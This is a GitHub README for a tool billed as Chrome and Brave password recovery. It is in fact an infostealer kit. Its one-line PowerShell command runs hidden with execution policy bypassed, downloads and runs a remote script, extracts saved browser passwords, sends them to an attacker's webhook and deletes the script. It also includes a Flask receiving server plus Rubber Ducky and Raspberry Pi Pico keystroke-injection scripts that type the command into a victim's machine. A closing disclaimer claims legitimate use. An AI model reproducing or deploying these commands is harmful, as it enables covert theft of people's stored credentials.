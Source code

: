 # 🔐 Chrome & Brave Password Recovery Tool 🔐

## 📱 Overview

This tool helps you recover saved passwords from Chrome and Brave browsers when you've forgotten them. Perfect for IT professionals who need to retrieve credentials for work purposes or individuals who need to recover their own forgotten passwords.

## ✨ Features

- 🔍 Recovers passwords from both Chrome and Brave browsers
- 👤 Works with multiple browser profiles
- 🔄 Automatically generates a Python script to decrypt the passwords
- 📊 Provides a neat summary of recovered credentials
- 🛡️ Simple one-line command for quick recovery

## 🚀 Quick Start

Simply run the following command in a PowerShell window:

```powershell
start /b powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/pentestfunctions/chrome_brave_password_webhook/refs/heads/main/dcinfosnd.ps1' -OutFile 'temp.ps1'; . .\temp.ps1; dcinfosnd -hq 'YOUR_WEBHOOK_URL'; Remove-Item 'temp.ps1'"
```

⚠️ Be sure to replace `YOUR_WEBHOOK_URL` with your actual webhook URL where the password data will be sent.

## 🌐 Setting Up Your Webhook

You'll need a webhook URL to receive the Python decryption script. Here are some options:

1. **Discord Webhook**: 
   - Create a Discord server
   - Go to Server Settings > Integrations > Webhooks
   - Create a new webhook and copy the URL

2. **Custom Server**:
   - Set up a simple Python server with Flask:

```python
from flask import Flask, request, jsonify
import os

app = Flask(__name__)

@app.route('/webhook', methods=['POST'])
def webhook():
    if 'file' in request.files:
        file = request.files['file']
        file.save(os.path.join('uploads', file.filename))
        return jsonify({"status": "success"})
    return jsonify({"status": "error"})

if __name__ == '__main__':
    os.makedirs('uploads', exist_ok=True)
    app.run(host='0.0.0.0', port=5000)
```

## 📋 Requirements

- Windows operating system
- Chrome and/or Brave browser installed
- PowerShell
- Administrator privileges (for best results)

## 🔧 How It Works

1. The tool stops any running Chrome or Brave processes
2. Extracts encrypted passwords from the browsers
3. Prepares a Python decryption script
4. Sends the script to your specified webhook
5. The script can then be run to decrypt all the passwords

## 🐍 Decrypting the Passwords Locally

When you receive the Python script, you'll need to:

1. Install the required library:
```bash
pip install pycryptodomex
```

2. Run the decryption script:
```bash
python browser_decrypt.py
```

### Why Local Decryption?

We decrypt passwords locally for several important reasons:
- 🔒 **Security**: Keeps your sensitive data on your machine
- 🚫 **Size Limitations**: Webhooks often have character limits
- ⚙️ **Complexity**: Browser encryption requires specific Python libraries
- 🔑 **Access Control**: Ensures only you can access the decrypted passwords

## 🦆 Automation Options

### USB Rubber Ducky Script

For automated deployment using a USB Rubber Ducky:

```
REM Chrome & Brave Password Recovery Tool
DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -ExecutionPolicy Bypass
ENTER
DELAY 1000
STRING Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/pentestfunctions/chrome_brave_password_webhook/refs/heads/main/dcinfosnd.ps1' -OutFile 'temp.ps1'; . .\temp.ps1; dcinfosnd -hq 'YOUR_WEBHOOK_URL'; Remove-Item 'temp.ps1'
ENTER
```

### Raspberry Pi Pico Implementation

You can also run this using a Raspberry Pi Pico with CircuitPython:

```python
import time
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keycode import Keycode
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS

# Initialize keyboard
keyboard = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(keyboard)

# Wait for the computer to recognize Pico
time.sleep(2)  

# Open Run window
keyboard.send(Keycode.WINDOWS, Keycode.R)
time.sleep(0.5)

# Open command prompt
layout.write("cmd")
keyboard.send(Keycode.ENTER)
time.sleep(0.3)

# Run the password recovery command
layout.write("start /b powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command \"Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/pentestfunctions/chrome_brave_password_webhook/refs/heads/main/dcinfosnd.ps1' -OutFile 'temp.ps1'; . .\\temp.ps1; dcinfosnd -hq 'YOUR_WEBHOOK_URL'; Remove-Item 'temp.ps1'\"")
keyboard.send(Keycode.ENTER)
```

Make sure to replace `'YOUR_WEBHOOK_URL'` with your actual webhook URL in both examples.

## 🛑 Important Notes

- This tool is designed for **legitimate password recovery** of your own accounts or within authorized systems
- Always obtain proper authorization before recovering passwords on systems you don't own
- Use responsibly and ethically
